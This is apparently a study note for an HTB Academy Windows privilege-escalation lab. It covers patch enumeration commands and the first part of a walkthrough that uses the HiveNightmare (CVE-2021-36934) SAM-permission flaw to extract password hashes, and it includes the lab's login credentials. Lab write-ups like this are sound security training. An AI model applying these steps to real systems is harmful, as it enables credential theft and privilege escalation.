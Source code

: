 ## 🔍 Patch Enumeration

### System Update Analysis
```cmd
# Multiple methods for patch assessment:
systeminfo                    # Comprehensive system information
wmic qfe list brief           # Quick Fix Engineering (patches)
Get-Hotfix                    # PowerShell patch enumeration

# Example output analysis:
wmic qfe list brief
Description      HotFixID   InstallDate  InstalledBy
Security Update  KB5000808               NT AUTHORITY\SYSTEM

# Research patches:
# Search KB numbers in Microsoft Update Catalog
# Cross-reference with exploit databases
```

### Vulnerability Assessment Workflow
```cmd
# 1. Enumerate system version
[environment]::OSVersion.Version

# 2. List installed patches
wmic qfe list brief | find "KB"

# 3. Cross-reference with vulnerability matrices
# Check exploit databases for missing patches

# 4. Prioritize based on:
- Local privilege escalation vectors
- Available exploit code
- System architecture compatibility
```

## 🎯 HTB Academy Lab Solution

### Lab Environment
- **Credentials**: `htb-student:HTB_@cademy_stdnt!`
- **Access Method**: RDP
- **Objective**: Escalate to NT AUTHORITY\SYSTEM using 3 different kernel exploits
- **Flag Location**: Administrator Desktop

### Complete Walkthrough

#### Method 1: HiveNightmare (CVE-2021-36934)
```cmd
# 1. Check vulnerability
icacls c:\Windows\System32\config\SAM
# Look for: BUILTIN\Users:(I)(RX)

# 2. Execute exploit
.\HiveNightmare.exe

# 3. Transfer files and extract hashes
# Use extracted hashes for authentication
```
